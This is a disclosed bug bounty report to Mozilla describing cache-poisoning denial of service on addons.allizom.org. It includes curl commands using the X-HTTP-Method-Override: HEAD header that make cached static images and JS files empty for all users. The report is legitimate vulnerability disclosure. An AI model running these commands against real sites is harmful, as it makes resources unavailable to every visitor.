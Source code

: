 # Denial of Access to Static Resources via Cache Poisoning on addons.allizom.org

## Report Details
- **Report ID**: 2860983
- **URL**: https://hackerone.com/reports/2860983
- **State**: Closed
- **Severity**: low
- **Submitted**: 2024-11-23T00:50:17.228Z
- **Disclosed**: 2025-01-08T10:39:30.045Z

## Reporter
- **Username**: jabiyev
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mozilla

## Vulnerability Information
## Summary:
An attacker can poison the cache and block access to static files (e.g., image, JS) that are delivered with the homepage. 

## Steps To Reproduce:

To reproduce cache poisoning for an image file: 

  1. `curl -H "X-HTTP-Method-Override: HEAD" https://addons.allizom.org/static-server/img/addon-icons/default-64.d144b50f2bb8.png?dontpoisoneveryone=1`
  2. Visit https://addons.allizom.org/static-server/img/addon-icons/default-64.d144b50f2bb8.png?dontpoisoneveryone=1 to see it is not accessible anymore.

To reproduce cache poisoning for a JS file: 

For example, `/static-frontend/amo-6203ce93d8491106ca21.js` is one of the JS files delivered with the homepage. We did not find a way to safely test (i.e., using `?dontpoisoneveryone=1`), since it does not include the query string as a part of the cache key. However, we noticed that the `X-HTTP-Method-Override: HEAD`header is honored in the same way.

1. `curl -s https://addons.allizom.org/static-frontend/amo-6203ce93d8491106ca21.js/notexist` (see the error message in the response body)
2.  `curl -s -H "X-HTTP-Method-Override: HEAD" https://addons.allizom.org/static-frontend/amo-6203ce93d8491106ca21.js/notexist` (see the empty response body)

## Supporting Material/References:
Behind the scenes, the origin server honors the X-HTTP-Method-Override header and treats the request as a HEAD request. Therefore, it generates a "200 OK" response with an empty body, which gets cached and as a result the resource becomes unavailable for all users. To learn more about the attack, you can read the document listed below.

  * https://cpdos.org/#HMO

## Impact

## Summary:

An attacker can make static resources such as images and JS files that are delivered with the homepage inaccessible to all users.

## Attachments
No attachments
